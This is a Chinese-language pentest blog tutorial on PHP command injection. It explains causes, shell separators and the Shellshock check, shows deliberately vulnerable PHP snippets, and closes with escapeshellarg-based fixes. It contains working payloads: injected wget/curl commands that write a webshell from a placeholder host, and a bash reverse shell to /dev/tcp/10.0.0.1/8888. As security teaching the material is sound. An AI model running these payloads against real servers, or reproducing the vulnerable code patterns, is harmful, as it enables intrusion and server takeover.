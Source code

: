 ```yaml
---
draft: false
date: 2016-07-24 14:32:51
title: 命令执行漏洞
description: 
categories:
  - Pentest
tags:
  - rce
---
```


### 0x00 命令执行
```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||、&、&&代替
    ;前面的执行完执行后面的(ping -c 1 10.11.11.11;whoami)
    |是管道符，显示后面的执行结果(ping -c 1 10.11.11.11|whoami)
    ||当前面的执行出错时执行后面的(ping -c 1 a.a.a||whoami)
    &会把前面的放在后台执行，然后执行后面的(ping -c 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -c 1 10.11.11.11&&whoami)

在Windows上，不能用;可以用|、||、&、&&代替
    |直接执行后面的语句(ping -n 1 10.11.11.11|whoami)
    ||前面出错才执行后面的(ping -n 1 a.a.a||whoami)
    &前面执行完执行后面的(ping -n 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -n 1 10.11.11.11&&whoami)
```

### 0x06 漏洞利用
* 示例一
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
![命令执行示例1](/img/post/command_execution1.png)

* 示例二
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
![命令执行示例2](/img/post/command_execution2.png)

* 示例三
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
![命令执行示例3](/img/post/command_execution3.png)
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
![命令执行示例4](/img/post/command_execution4.png)

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

//提交http://localhost/cmd.php?fun=system&par=net user，最终执行的是system("net user")
```

### 0x08 关于获取webshell
**要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellarg($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```